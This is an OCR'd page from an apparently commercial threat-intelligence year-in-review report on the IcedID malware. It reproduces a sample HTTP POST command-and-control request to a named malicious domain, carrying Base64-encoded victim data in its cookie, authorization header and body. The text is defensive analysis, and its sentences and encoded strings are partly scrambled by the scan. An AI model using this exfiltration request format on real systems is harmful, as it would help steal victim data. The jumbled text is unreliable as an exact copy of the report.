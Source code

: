 2021, and between February and May 2022, but activity levels have 

originate externally. 

an effort to ensure that emails appear to come from a trusted sender, 

continued to increase since May 2022\. In 2021 the operators of 

IcedID, GOLD SWATHMORE30, reworked the malware’s networking 

functionality to include Base64\-encoded information about the victim 

system in the HTTP Cookie and Authorization header (figure 11\).

POST /news/1/255/0 HTTP/1\.1
Host: coolbearblunts.com
Connection: Keep\-Alive
Content\-Type: application/octet\-stream
Cookie: session\=MDowOjA6MjIxMzQ6MA\=\=
Authorization: Basic MzU2MDE4MjYwMDOxMDg2NDczMzAyOjEwNzo2Njoy
Content\-Length: 416

JjE0NDQ1MTcwPUE0QkI2RENENEExMyYyMDg0NzgwOT01NDQ1MDA1NDU1MDA1NTM1MDA1NEI1MDA1NTQ1MDA1 
NEY1MDAINTAIMDA]MkQIMDAINTIIMDA]MzMIMDAINTUIMDAIMZEIMDA]MzkIMDAIMzMIMDAmMzMONTk5NTg9 
JTU3JTAwJTRGJTAwJTUyJTAwJTRCJTAwJTQ3JTAwJTUyJTAwJTRGJTAwJTU1JTAwJTUwJTAwJjUzOTU4OTQ5 
PTMmMTg2NzkwOTM9MCY1NTA5MDkyNz@xMC4wLjE5MDQ×LjAuNjQuMS400CYONDMANTY10D01NKE1MDAINjM1 
MDAINzIlMDAINjUlMDAINkUlMDAINzMIMDAINjgIMDAINjEIMDAINzcIMDAmNTE@MTgyMTA9ODE5Mg\=\=

Figure 11\. IcedID HTTP POST request with encoded victim information. (Source: Secureworks)

2022 State of the Threat: A Year in Review

20

 
• 

01

02

03

04

05

06
06

07

07

08

08
09

Letter From Our CTIO

Executive Summary 
and Key Findings
